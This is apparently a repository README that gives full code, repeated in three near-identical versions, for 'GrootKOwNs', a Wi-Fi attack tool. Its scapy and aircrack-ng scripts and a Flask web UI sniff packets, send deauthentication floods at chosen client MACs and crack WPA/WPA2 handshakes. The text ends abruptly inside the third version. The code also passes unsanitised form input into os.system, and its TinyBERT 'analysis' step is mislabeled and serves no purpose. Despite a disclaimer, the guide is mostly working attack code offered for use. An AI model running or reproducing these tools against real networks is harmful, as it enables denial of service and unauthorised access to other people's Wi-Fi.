

# GrootKOwNs

## Setting up GrootKnows with TinyBERT for intelligent packet analysis, ensuring you have all dependencies and instructions for running in an institutional setting.

### Full Guide to Build GrootKOwNs

**Warning: The information provided below is for educational purposes only. Any attempt to hack Wi-Fi or other networks without explicit permission from the owner is illegal and unethical. Always ensure you have proper authorization before engaging in any network security activities.**

#### Project Structure
```
grootknows/
│
├── client/
│   ├── build/
│   ├── node_modules/
│   ├── public/
│   ├── src/
│   │   ├── App.css
│   │   ├── App.js
│   │   ├── index.js
│   │   └── ...
│   ├── package.json
│   └── ...
│
├── templates/
│   └── index.html
│
├── static/
│   └── ...
│
├── capture.py
├── crack.py
├── deauth.py
├── main.py
├── storage.py
├── web.py
├── requirements.txt
├── download_model.py
└── .env
```

### 1. Setting Up the Environment

#### Prerequisites
- Surface Pro 9 with WSL and Ubuntu installed
- External USB Wi-Fi adapter that supports monitor mode
- Ethical hacking permission

#### Installing WSL and Ubuntu
1. Open PowerShell as Administrator and run:
   ```powershell
   wsl --install
   ```
2. Restart your computer if prompted.
3. Set up your Ubuntu user and password after the restart.

#### Installing Required Tools
Open your Ubuntu terminal in WSL and run the following commands:

```bash
sudo apt-get update
sudo apt-get install aircrack-ng
sudo apt-get install python3-pip python3-venv
pip3 install virtualenv
```

### 2. Setting Up the Project

#### Creating Virtual Environment
Navigate to the project directory and create a virtual environment:

```bash
cd grootknows
python3 -m venv venv
source venv/bin/activate
```

#### requirements.txt
Create a `requirements.txt` file with the following content to list the necessary Python packages:

```text
Flask
scapy
waitress
requests
transformers
torch
```

Install dependencies:

```bash
pip install -r requirements.txt
```

### 3. Download the Pre-trained Model Weights

Create a script called `download_model.py` to download the model weights:

#### download_model.py

```python
from transformers import BertTokenizer, BertModel

# Load TinyBERT and download the weights
tokenizer = BertTokenizer.from_pretrained('huawei-noah/TinyBERT_General_4L_312D')
model = BertModel.from_pretrained('huawei-noah/TinyBERT_General_4L_312D')

print("Model and tokenizer downloaded.")
```

Run this script once to download the weights:

```python
python download_model.py
```

### 4. Backend Code

#### capture.py

```python
from scapy.all import *
import threading
import storage
import time
import os
from transformers import BertTokenizer, BertModel
import torch

# Load TinyBERT v1.2B
tokenizer = BertTokenizer.from_pretrained('huawei-noah/TinyBERT_General_4L_312D', local_files_only=True)
model = BertModel.from_pretrained('huawei-noah/TinyBERT_General_4L_312D', local_files_only=True)

def analyze_packet(packet):
    if packet.haslayer(Dot11):
        packet_info = packet.summary()
        inputs = tokenizer(packet_info, return_tensors="pt")
        outputs = model(**inputs)
        return outputs.last_hidden_state

def packet_handler(packet):
    analysis = analyze_packet(packet)
    storage.store_packet(packet, analysis)

def start_capture(iface):
    sniff(iface=iface, prn=packet_handler)

def start_grootknows():
    iface = input("Enter interface (e.g., wlan0mon): ")
    threading.Thread(target=start_capture, args=(iface,)).start()
    
    # Automated scanning and capturing
    while True:
        os.system(f'sudo airodump-ng {iface} --write grootknows --output-format pcap')
        time.sleep(10)  # Adjust sleep duration as needed
```

#### crack.py

```python
import os

def crack_password(handshake_file, wordlist_file, bssid):
    os.system(f"aircrack-ng -w {wordlist_file} -b {bssid} {handshake_file}")
```

#### deauth.py

```python
from scapy.all import *

def deauth_attack(target_mac, gateway_mac, iface):
    dot11 = Dot11(addr1=target_mac, addr2=gateway_mac, addr3=gateway_mac)
    packet = RadioTap()/dot11/Dot11Deauth(reason=7)
    sendp(packet, inter=0.1, count=100, iface=iface, verbose=1)
```

#### storage.py

```python
import json
import os

PACKET_FILE = 'packets.json'
HANDSHAKE_FILE = 'handshakes.json'
ANALYSIS_FILE = 'analysis.json'

def store_packet(packet, analysis):
    data = {
        'src': packet.addr2,
        'dst': packet.addr1,
        'info': packet.summary(),
        'analysis': analysis.tolist()  # Convert tensor to list for JSON serialization
    }
    with open(PACKET_FILE, 'a') as f:
        f.write(json.dumps(data) + "\n")

def store_handshake(handshake):
    with open(HANDSHAKE_FILE, 'a') as f:
        f.write(json.dumps(handshake) + "\n")

def read_logs(file_path):
    if os.path.exists(file_path):
        with open(file_path, 'r') as f:
            return f.readlines()
    return []
```

#### main.py

```python
import capture
import deauth
import crack
import web

def main():
    print("Starting GrootKnows system...")
    choice = input("Choose an option:\n1. Start GrootKnows\n2. Start Web Interface\n> ")

    if choice == '1':
        capture.start_grootknows()
    elif choice == '2':
        web.start_web_interface()
    else:
        print("Invalid choice. Exiting...")

if __name__ == "__main__":
    main()
```

#### web.py

```python
from flask import Flask, request, jsonify, send_from_directory
import threading
import storage
import capture
import deauth
import crack

app = Flask(__name__)

@app.route('/')
def home():
    return send_from_directory('client/build', 'index.html')

@app.route('/capture', methods=['POST'])
def capture_packets():
    iface = request.json['iface']
    threading.Thread(target=capture.start_grootknows).start()
    return jsonify({"status": "Packet capture started on interface: " + iface})

@app.route('/deauth', methods=['POST'])
def deauth():
    target_mac = request.json['target_mac']
    gateway_mac = request.json['gateway_mac']
    iface = request.json['iface']
    threading.Thread(target=deauth.deauth_attack, args=(target_mac, gateway_mac, iface)).start()
    return jsonify({"status": f"Deauth attack started on target: {target_mac} via gateway: {gateway_mac}"})

@app.route('/crack', methods=['POST'])
def crack():
    handshake_file = request.json['handshake_file']
    wordlist_file = request.json['wordlist_file']
    bssid = request.json['bssid']
    threading.Thread(target=crack.crack_password, args=(handshake_file, wordlist_file, bssid)).start()
    return jsonify({"status": f"Cracking started on handshake file: {handshake_file}"})

@app.route('/log')
def log():
    logs = storage.read_logs(storage.PACKET_FILE)
    return jsonify(logs)

@app.route('/<path:path>')
def static_proxy(path):
    return send_from_directory('client/build', path)

def start_web_interface():
    app.run(host='0.0.0.0', port=5000)
```

### 5. Frontend Code

#### index.html

```html
<!DOCTYPE html>
<html>
<head>
    <title>GrootKnows</title>
    <style>
        body {
            background-color: #121212;
            color: #ffffff;
            font-family: Arial, sans-serif;
        }
        h1, h2 {
            text-align: center;
        }
        form {
            margin: 20px;
            padding: 20px;
            background-color: #1e1e1e;
            border-radius: 5px;
        }
        label, input {
            display: block;
            margin: 10px 0;
        }
        button {
            background-color: #6200ea;
            color: #ffffff;
            border: none;
            padding: 10px 20px;
            cursor: pointer;
            border-radius: 5px;
        }
        button:hover {
            background-color: #3700b3;
        }
        .log {
            background-color: #1e1e1e;
            padding: 10px;
            border-radius: 5px;
            overflow-y: scroll;
            height: 200px

;
        }
    </style>
</head>
<body>
    <h1>GrootKnows</h1>
    <form id="capture-form">
        <h2>Start Packet Capture</h2>
        <label for="iface">Interface:</label>
        <input type="text" id="iface" name="iface">
        <button type="submit">Start Capture</button>
    </form>
    <form id="deauth-form">
        <h2>Start Deauth Attack</h2>
        <label for="iface">Interface:</label>
        <input type="text" id="deauth_iface" name="iface">
        <label for="target_mac">Target MAC:</label>
        <input type="text" id="target_mac" name="target_mac">
        <label for="gateway_mac">Gateway MAC:</label>
        <input type="text" id="gateway_mac" name="gateway_mac">
        <button type="submit">Start Deauth Attack</button>
    </form>
    <form id="crack-form">
        <h2>Crack WPA/WPA2 Password</h2>
        <label for="handshake_file">Handshake File:</label>
        <input type="text" id="handshake_file" name="handshake_file">
        <label for="wordlist_file">Wordlist File:</label>
        <input type="text" id="wordlist_file" name="wordlist_file">
        <label for="bssid">BSSID:</label>
        <input type="text" id="bssid" name="bssid">
        <button type="submit">Start Cracking</button>
    </form>
    <div class="log" id="log">
        <h2>Live Log</h2>
    </div>
    <script>
        document.getElementById('capture-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/capture', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({ iface: document.getElementById('iface').value })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };
        document.getElementById('deauth-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/deauth', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    iface: document.getElementById('deauth_iface').value,
                    target_mac: document.getElementById('target_mac').value,
                    gateway_mac: document.getElementById('gateway_mac').value
                })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };
        document.getElementById('crack-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/crack', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    handshake_file: document.getElementById('handshake_file').value,
                    wordlist_file: document.getElementById('wordlist_file').value,
                    bssid: document.getElementById('bssid').value
                })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };

        function updateLog() {
            fetch('/log').then(response => response.json()).then(data => {
                const logElement = document.getElementById('log');
                logElement.innerHTML = '<h2>Live Log</h2>';
                data.forEach(log => {
                    logElement.innerHTML += '<p>' + log + '</p>';
                });
            });
        }

        setInterval(updateLog, 5000);
    </script>
</body>
</html>
```

#### App.js

Replace the contents of `client/src/App.js` with:

```jsx
import React, { useState, useEffect } from 'react';
import axios from 'axios';
import './App.css';

function App() {
  const [logs, setLogs] = useState([]);

  useEffect(() => {
    const fetchLogs = async () => {
      const result = await axios.get('/log');
      setLogs(result.data);
    };
    
    const interval = setInterval(fetchLogs, 5000);
    return () => clearInterval(interval);
  }, []);

  const handleCapture = async (e) => {
    e.preventDefault();
    const iface = e.target.iface.value;
    await axios.post('/capture', { iface });
  };

  const handleDeauth = async (e) => {
    e.preventDefault();
    const iface = e.target.iface.value;
    const target_mac = e.target.target_mac.value;
    const gateway_mac = e.target.gateway_mac.value;
    await axios.post('/deauth', { iface, target_mac, gateway_mac });
  };

  const handleCrack = async (e) => {
    e.preventDefault();
    const handshake_file = e.target.handshake_file.value;
    const wordlist_file = e.target.wordlist_file.value;
    const bssid = e.target.bssid.value;
    await axios.post('/crack', { handshake_file, wordlist_file, bssid });
  };

  return (
    <div className="App">
      <header className="App-header">
        <h1>GrootKnows</h1>
        <form onSubmit={handleCapture}>
          <h2>Start Packet Capture</h2>
          <label>
            Interface:
            <input type="text" name="iface" />
          </label>
          <button type="submit">Start Capture</button>
        </form>
        <form onSubmit={handleDeauth}>
          <h2>Start Deauth Attack</h2>
          <label>
            Interface:
            <input type="text" name="iface" />
          </label>
          <label>
            Target MAC:
            <input type="text" name="target_mac" />
          </label>
          <label>
            Gateway MAC:
            <input type="text" name="gateway_mac" />
          </label>
          <button type="submit">Start Deauth Attack</button>
        </form>
        <form onSubmit={handleCrack}>
          <h2>Crack WPA/WPA2 Password</h2>
          <label>
            Handshake File:
            <input type="text" name="handshake_file" />
          </label>
          <label>
            Wordlist File:
            <input type="text" name="wordlist_file" />
          </label>
          <label>
            BSSID:
            <input type="text" name="bssid" />
          </label>
          <button type="submit">Start Cracking</button>
        </form>
        <div className="log">
          <h2>Live Log</h2>
          {logs.map((log, index) => (
            <p key={index}>{log}</p>
          ))}
        </div>
      </header>
    </div>
  );
}

export default App;
```

#### App.css

Update `client/src/App.css` for dark mode:

```css
body {
  background-color: #121212;
  color: #ffffff;
  font-family: Arial, sans-serif;
}

h1, h2 {
  text-align: center;
}

form {
  margin: 20px;
  padding: 20px;
  background-color: #1e1e1e;
  border-radius: 5px;
}

label, input {
  display: block;
  margin: 10px 0;
}

button {
  background-color: #6200ea;
  color: #ffffff;
  border: none;
  padding: 10px 20px;
  cursor: pointer;
  border-radius: 5px;
}

button:hover {
  background-color: #3700b3;
}

.log {
  background-color: #1e1e1e;
  padding: 10px;
  border-radius: 5px;
  overflow-y: scroll;
  height: 200px;
}
```

### 6. Building and Running the Application

Navigate to the `client` directory, build the React app, and serve it using Flask:

```bash
cd client
npm run build
```

Then, start the Flask server:

```bash
cd ..
python3 main.py
```

Navigate to `http://localhost:5000` in your browser to use the GrootKnows interface.

By following these steps, you'll have a fully functional PWNAGOTCHI-like system called "GrootKOwNs" running on your Surface Pro 9 using WSL Ubuntu. This system can capture Wi-Fi packets, perform deauthentication attacks, and crack WPA/WPA2 passwords, all while displaying live output on a dark mode web interface. Always ensure you have the necessary permissions and use this knowledge for ethical purposes.


# Version 2 


Let's review the entire code and ensure that nothing is missed. Below is a comprehensive guide with the full code and instructions.

### Project Structure
```
grootknows/
│
├── client/
│   ├── build/
│   ├── node_modules/
│   ├── public/
│   ├── src/
│   │   ├── App.css
│   │   ├── App.js
│   │   ├── index.js
│   │   └── ...
│   ├── package.json
│   └── ...
│
├── templates/
│   └── index.html
│
├── static/
│   └── ...
│
├── capture.py
├── crack.py
├── deauth.py
├── main.py
├── storage.py
├── web.py
├── requirements.txt
├── download_model.py
└── .env
```

### 1. Setting Up the Environment

#### Prerequisites
- Surface Pro 9 with WSL and Ubuntu installed
- External USB Wi-Fi adapter that supports monitor mode
- Ethical hacking permission

#### Installing WSL and Ubuntu
1. Open PowerShell as Administrator and run:
   ```powershell
   wsl --install
   ```
2. Restart your computer if prompted.
3. Set up your Ubuntu user and password after the restart.

#### Installing Required Tools
Open your Ubuntu terminal in WSL and run the following commands:

```bash
sudo apt-get update
sudo apt-get install aircrack-ng
sudo apt-get install python3-pip python3-venv
pip3 install virtualenv
```

### 2. Setting Up the Project

#### Creating Virtual Environment
Navigate to the project directory and create a virtual environment:

```bash
cd grootknows
python3 -m venv venv
source venv/bin/activate
```

#### requirements.txt
Create a `requirements.txt` file with the following content to list the necessary Python packages:

```text
Flask
scapy
waitress
requests
transformers
torch
```

Install dependencies:

```bash
pip install -r requirements.txt
```

### 3. Download the Pre-trained Model Weights

Create a script called `download_model.py` to download the model weights:

#### download_model.py

```python
from transformers import BertTokenizer, BertModel

# Load TinyBERT and download the weights
tokenizer = BertTokenizer.from_pretrained('huawei-noah/TinyBERT_General_4L_312D')
model = BertModel.from_pretrained('huawei-noah/TinyBERT_General_4L_312D')

print("Model and tokenizer downloaded.")
```

Run this script once to download the weights:

```bash
python download_model.py
```

### 4. Backend Code

#### capture.py

```python
from scapy.all import *
import threading
import storage
import time
import os
from transformers import BertTokenizer, BertModel
import torch

# Load TinyBERT
tokenizer = BertTokenizer.from_pretrained('huawei-noah/TinyBERT_General_4L_312D', local_files_only=True)
model = BertModel.from_pretrained('huawei-noah/TinyBERT_General_4L_312D', local_files_only=True)

def analyze_packet(packet):
    if packet.haslayer(Dot11):
        packet_info = packet.summary()
        inputs = tokenizer(packet_info, return_tensors="pt")
        outputs = model(**inputs)
        return outputs.last_hidden_state

def packet_handler(packet):
    analysis = analyze_packet(packet)
    storage.store_packet(packet, analysis)

def start_capture(iface):
    sniff(iface=iface, prn=packet_handler)

def start_grootknows():
    iface = input("Enter interface (e.g., wlan0mon): ")
    threading.Thread(target=start_capture, args=(iface,)).start()
    
    # Automated scanning and capturing
    while True:
        os.system(f'sudo airodump-ng {iface} --write grootknows --output-format pcap')
        time.sleep(10)  # Adjust sleep duration as needed
```

#### crack.py

```python
import os

def crack_password(handshake_file, wordlist_file, bssid):
    os.system(f"aircrack-ng -w {wordlist_file} -b {bssid} {handshake_file}")
```

#### deauth.py

```python
from scapy.all import *

def deauth_attack(target_mac, gateway_mac, iface):
    dot11 = Dot11(addr1=target_mac, addr2=gateway_mac, addr3=gateway_mac)
    packet = RadioTap()/dot11/Dot11Deauth(reason=7)
    sendp(packet, inter=0.1, count=100, iface=iface, verbose=1)
```

#### storage.py

```python
import json
import os

PACKET_FILE = 'packets.json'
HANDSHAKE_FILE = 'handshakes.json'
ANALYSIS_FILE = 'analysis.json'

def store_packet(packet, analysis):
    data = {
        'src': packet.addr2,
        'dst': packet.addr1,
        'info': packet.summary(),
        'analysis': analysis.tolist()  # Convert tensor to list for JSON serialization
    }
    with open(PACKET_FILE, 'a') as f:
        f.write(json.dumps(data) + "\n")

def store_handshake(handshake):
    with open(HANDSHAKE_FILE, 'a') as f:
        f.write(json.dumps(handshake) + "\n")

def read_logs(file_path):
    if os.path.exists(file_path):
        with open(file_path, 'r') as f:
            return f.readlines()
    return []
```

#### main.py

```python
import capture
import deauth
import crack
import web

def main():
    print("Starting GrootKnows system...")
    choice = input("Choose an option:\n1. Start GrootKnows\n2. Start Web Interface\n> ")

    if choice == '1':
        capture.start_grootknows()
    elif choice == '2':
        web.start_web_interface()
    else:
        print("Invalid choice. Exiting...")

if __name__ == "__main__":
    main()
```

#### web.py

```python
from flask import Flask, request, jsonify, send_from_directory
import threading
import storage
import capture
import deauth
import crack

app = Flask(__name__)

@app.route('/')
def home():
    return send_from_directory('client/build', 'index.html')

@app.route('/capture', methods=['POST'])
def capture_packets():
    iface = request.json['iface']
    threading.Thread(target=capture.start_grootknows).start()
    return jsonify({"status": "Packet capture started on interface: " + iface})

@app.route('/deauth', methods=['POST'])
def deauth():
    target_mac = request.json['target_mac']
    gateway_mac = request.json['gateway_mac']
    iface = request.json['iface']
    threading.Thread(target=deauth.deauth_attack, args=(target_mac, gateway_mac, iface)).start()
    return jsonify({"status": f"Deauth attack started on target: {target_mac} via gateway: {gateway_mac}"})

@app.route('/crack', methods=['POST'])
def crack():
    handshake_file = request.json['handshake_file']
    wordlist_file = request.json['wordlist_file']
    bssid = request.json['bssid']
    threading.Thread(target=crack.crack_password, args=(handshake_file, wordlist_file, bssid)).start()
    return jsonify({"status": f"Cracking started on handshake file: {handshake_file}"})

@app.route('/log')
def log():
    logs = storage.read_logs(storage.PACKET_FILE)
    return jsonify(logs)

@app.route('/<path:path>')
def static_proxy(path):
    return send_from_directory('client/build', path)

def start_web_interface():
    app.run(host='0.0.0.0', port=5000)
```

### 5. Frontend Code

#### index.html

```html
<!DOCTYPE html>
<html>
<head>
    <title>GrootKnows</title>
    <style>
        body {
            background-color: #121212;
            color: #ffffff;
            font-family: Arial, sans-serif;
        }
        h1, h2 {
            text-align: center;
        }
        form {
            margin: 20px;
            padding: 20px;
            background-color: #1e1e1e;
            border-radius: 5px;
        }
        label, input {
            display: block;
            margin: 10px 0;
        }
        button {
            background-color: #6200ea;
            color: #ffffff;
            border: none;
            padding: 10px 20px;
            cursor: pointer;
            border-radius: 5px;
        }
        button:hover {
            background-color: #3700b3;
        }
        .log {
            background-color: #1e1e1e;
            padding: 10px;
            border-radius: 5px;
            overflow-y: scroll;
            height: 200px;
        }
    </style>
</head>
<body>
    <h1>GrootKnows</h1>
    <form id="capture-form">
        <h2>Start Packet Capture</h2>
        <label for="iface">Interface:</label>
        <input type="text" id="iface" name="iface">
        <button type="submit">Start Capture</button>
    </form>
    <form id="deauth-form">
        <h2>Start Deauth

 Attack</h2>
        <label for="iface">Interface:</label>
        <input type="text" id="deauth_iface" name="iface">
        <label for="target_mac">Target MAC:</label>
        <input type="text" id="target_mac" name="target_mac">
        <label for="gateway_mac">Gateway MAC:</label>
        <input type="text" id="gateway_mac" name="gateway_mac">
        <button type="submit">Start Deauth Attack</button>
    </form>
    <form id="crack-form">
        <h2>Crack WPA/WPA2 Password</h2>
        <label for="handshake_file">Handshake File:</label>
        <input type="text" id="handshake_file" name="handshake_file">
        <label for="wordlist_file">Wordlist File:</label>
        <input type="text" id="wordlist_file" name="wordlist_file">
        <label for="bssid">BSSID:</label>
        <input type="text" id="bssid" name="bssid">
        <button type="submit">Start Cracking</button>
    </form>
    <div class="log" id="log">
        <h2>Live Log</h2>
    </div>
    <script>
        document.getElementById('capture-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/capture', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({ iface: document.getElementById('iface').value })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };
        document.getElementById('deauth-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/deauth', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    iface: document.getElementById('deauth_iface').value,
                    target_mac: document.getElementById('target_mac').value,
                    gateway_mac: document.getElementById('gateway_mac').value
                })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };
        document.getElementById('crack-form').onsubmit = function(e) {
            e.preventDefault();
            fetch('/crack', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    handshake_file: document.getElementById('handshake_file').value,
                    wordlist_file: document.getElementById('wordlist_file').value,
                    bssid: document.getElementById('bssid').value
                })
            }).then(response => response.json()).then(data => {
                console.log(data);
                updateLog();
            });
        };

        function updateLog() {
            fetch('/log').then(response => response.json()).then(data => {
                const logElement = document.getElementById('log');
                logElement.innerHTML = '<h2>Live Log</h2>';
                data.forEach(log => {
                    logElement.innerHTML += '<p>' + log + '</p>';
                });
            });
        }

        setInterval(updateLog, 5000);
    </script>
</body>
</html>
```

#### App.js

Replace the contents of `client/src/App.js` with:

```jsx
import React, { useState, useEffect } from 'react';
import axios from 'axios';
import './App.css';

function App() {
  const [logs, setLogs] = useState([]);

  useEffect(() => {
    const fetchLogs = async () => {
      const result = await axios.get('/log');
      setLogs(result.data);
    };
    
    const interval = setInterval(fetchLogs, 5000);
    return () => clearInterval(interval);
  }, []);

  const handleCapture = async (e) => {
    e.preventDefault();
    const iface = e.target.iface.value;
    await axios.post('/capture', { iface });
  };

  const handleDeauth = async (e) => {
    e.preventDefault();
    const iface = e.target.iface.value;
    const target_mac = e.target.target_mac.value;
    const gateway_mac = e.target.gateway_mac.value;
    await axios.post('/deauth', { iface, target_mac, gateway_mac });
  };

  const handleCrack = async (e) => {
    e.preventDefault();
    const handshake_file = e.target.handshake_file.value;
    const wordlist_file = e.target.wordlist_file.value;
    const bssid = e.target.bssid.value;
    await axios.post('/crack', { handshake_file, wordlist_file, bssid });
  };

  return (
    <div className="App">
      <header className="App-header">
        <h1>GrootKnows</h1>
        <form onSubmit={handleCapture}>
          <h2>Start Packet Capture</h2>
          <label>
            Interface:
            <input type="text" name="iface" />
          </label>
          <button type="submit">Start Capture</button>
        </form>
        <form onSubmit={handleDeauth}>
          <h2>Start Deauth Attack</h2>
          <label>
            Interface:
            <input type="text" name="iface" />
          </label>
          <label>
            Target MAC:
            <input type="text" name="target_mac" />
          </label>
          <label>
            Gateway MAC:
            <input type="text" name="gateway_mac" />
          </label>
          <button type="submit">Start Deauth Attack</button>
        </form>
        <form onSubmit={handleCrack}>
          <h2>Crack WPA/WPA2 Password</h2>
          <label>
            Handshake File:
            <input type="text" name="handshake_file" />
          </label>
          <label>
            Wordlist File:
            <input type="text" name="wordlist_file" />
          </label>
          <label>
            BSSID:
            <input type="text" name="bssid" />
          </label>
          <button type="submit">Start Cracking</button>
        </form>
        <div className="log">
          <h2>Live Log</h2>
          {logs.map((log, index) => (
            <p key={index}>{log}</p>
          ))}
        </div>
      </header>
    </div>
  );
}

export default App;
```

#### App.css

Update `client/src/App.css` for dark mode:

```css
body {
  background-color: #121212;
  color: #ffffff;
  font-family: Arial, sans-serif;
}

h1, h2 {
  text-align: center;
}

form {
  margin: 20px;
  padding: 20px;
  background-color: #1e1e1e;
  border-radius: 5px;
}

label, input {
  display: block;
  margin: 10px 0;
}

button {
  background-color: #6200ea;
  color: #ffffff;
  border: none;
  padding: 10px 20px;
  cursor: pointer;
  border-radius: 5px;
}

button:hover {
  background-color: #3700b3;
}

.log {
  background-color: #1e1e1e;
  padding: 10px;
  border-radius: 5px;
  overflow-y: scroll;
  height: 200px;
}
```

### 6. Building and Running the Application

Navigate to the `client` directory, build the React app, and serve it using Flask:

```bash
cd client
npm run build
```

Then, start the Flask server:

```bash
cd ..
python3 main.py
```

Navigate to `http://localhost:5000` in your browser to use the GrootKnows interface.


#### Version 3

# GrootKOwNs


### Full Setup for GrootKOwNs with Visualizations


#### Project Structure
```
grootkowns/
│
├── client/
│   ├── build/
│   ├── node_modules/
│   ├── public/
│   ├── src/
│   │   ├── App.css
│   │   ├── App.js
│   │   ├── index.js
│   │   └── ...
│   ├── package.json
│   └── ...
│
├── templates/
│   └── index.html
│
├── static/
│   └── ...
│
├── capture.py
├── crack.py
├── deauth.py
├── main.py
├── storage.py
├── web.py
├── requirements.txt
├── download_model.py
└── .env
```

### 1. Setting Up the Environment

#### Prerequisites
- Surface Pro 9 with WSL and Ubuntu installed
- External USB Wi-Fi adapter that supports monitor mode
- Ethical hacking permission

#### Installing WSL and Ubuntu
1. Open PowerShell as Administrator and run:
   ```powershell
   wsl --install
   ```
2. Restart your computer if prompted.
3. Set up your Ubuntu user and password after the restart.

#### Installing Required Tools
Open your Ubuntu terminal in WSL and run the following commands:

```bash
sudo apt-get update
sudo apt-get install aircrack-ng
sudo apt-get install python3-pip python3-venv
pip3 install virtualenv
```

### 2. Setting Up the Project

#### Creating Virtual Environment
Navigate to the project directory and create a virtual environment:

```bash
cd grootkowns
python3 -m venv venv
source venv/bin/activate
```

#### requirements.txt
Create a `requirements.txt` file with the following content to list the necessary Python packages:

```text
Flask
scapy
waitress
requests
transformers
torch
matplotlib
seaborn
```

Install dependencies:

```bash
pip install -r requirements.txt
```

### 3. Download the Pre-trained Model Weights

Create a script called `download_model.py` to download the model weights:

#### download_model.py

```python
from transformers import BertTokenizer, BertModel

# Load TinyBERT and download the weights
tokenizer = BertTokenizer.from_pretrained('huawei-noah/TinyBERT_General_4L_312D')
model = BertModel.from_pretrained('huawei-noah/TinyBERT_General_4L_312D')

print("Model and tokenizer downloaded.")
```

Run this script once to download the weights:

```bash
python download_model.py
```

### 4. Backend Code

#### capture.py

```python
from scapy.all import *
import threading
import storage
import time
import os
from transformers import BertTokenizer, BertModel
import torch

# Load TinyBERT
tokenizer = BertTokenizer.from_pretrained('huawei-noah/TinyBERT_General_4L_312D', local_files_only=True)
model = BertModel.from_pretrained('huawei-noah/TinyBERT_General_4L_312D', local_files_only=True)

def analyze_packet(packet):
    if packet.haslayer(Dot11):
        packet_info = packet.summary()
        inputs = tokenizer(packet_info, return_tensors="pt")
        outputs = model(**inputs)
        return outputs.last_hidden_state

def packet_handler(packet):
    analysis = analyze_packet(packet)
    storage.store_packet(packet, analysis)
    storage.store_packet_for_visualization(packet)

def start_capture(iface):
    sniff(iface=iface, prn=packet_handler)

def start_grootkowns():
    iface = input("Enter interface (e.g., wlan0mon): ")
    threading.Thread(target=start_capture, args=(iface,)).start()
    
    # Automated scanning and capturing
    while True:
        os.system(f'sudo airodump-ng {iface} --write grootkowns --output-format pcap')
        time.sleep(10)  # Adjust sleep duration as needed
```

#### crack.py

```python
import os

def crack_password(handshake_file, wordlist_file, bssid):
    os.system(f"aircrack-ng -w {wordlist_file} -b {bssid} {handshake_file}")
```

#### deauth.py

```python
from scapy.all import *

def deauth_attack(target_mac, gateway_mac, iface):
    dot11 = Dot11(addr1=target_mac, addr2=gateway_mac, addr3=gateway_mac)
    packet = RadioTap()/dot11/Dot11Deauth(reason=7)
    sendp(packet, inter=0.1, count=100, iface=iface, verbose=1)
```

#### storage.py

```python
import json
import os

PACKET_FILE = 'packets.json'
HANDSHAKE_FILE = 'handshakes.json'
ANALYSIS_FILE = 'analysis.json'
VISUALIZATION_FILE = 'visualization_data.json'

def store_packet(packet, analysis):
    data = {
        'src': packet.addr2,
        'dst': packet.addr1,
        'info': packet.summary(),
        'analysis': analysis.tolist()  # Convert tensor to list for JSON serialization
    }
    with open(PACKET_FILE, 'a') as f:
        f.write(json.dumps(data) + "\n")

def store_packet_for_visualization(packet):
    data = {
        'src': packet.addr2,
        'dst': packet.addr1,
        'info': packet.summary(),
        'type': packet.type,
